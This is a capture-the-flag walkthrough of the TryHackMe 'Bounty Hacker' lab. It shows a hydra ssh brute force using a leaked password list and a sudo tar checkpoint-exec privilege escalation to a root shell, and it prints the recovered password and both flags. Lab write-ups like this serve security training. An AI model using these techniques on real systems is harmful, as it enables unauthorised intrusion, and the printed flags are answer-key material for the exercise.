 <h1> Bounty Hacker </h1>

Room: Bounty Hacker
Link: https://tryhackme.com/room/cowboyhacker

Machine IP: 10.10.187.209

### Scanning
Nmap scan results:
   21/tcp    open   ftp (Anonymous login allowed)
   
   22/tcp    open   ssh   
   
   80/tcp    open   http

FTP:
  From ftp login we find 2 txt files.
  task.txt states these following tasks:
  
     1.) Protect Vicious.
     2.) Plan for Red Eye pickup on the moon.

     -lin
 
 Locks.txt contains a list a passwords and as we can see we have a username lin, so we can do a bruteforce attack.
     hydra -l lin -P locks.txt ssh://machine ip
 
 Within a few seconds we get the password: RedDr4gonSynd1cat3
 
 Now logging in to the machine via ssh, well we find the user flag easily in Desktop directory.
      
      User flag: THM{CR1M3_SyNd1C4T3}

### PrivEsc
 Running the sudo -l command we see user lin can run tar as root. So searching gtfo bins we find 
     
     sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
 If while running the above command you get an error try sudo 
 /bin/tar. 
And we have our privileged shell.
 Now moving to the root directory we find our root 
 flag: THM{80UN7Y_h4cK3r}
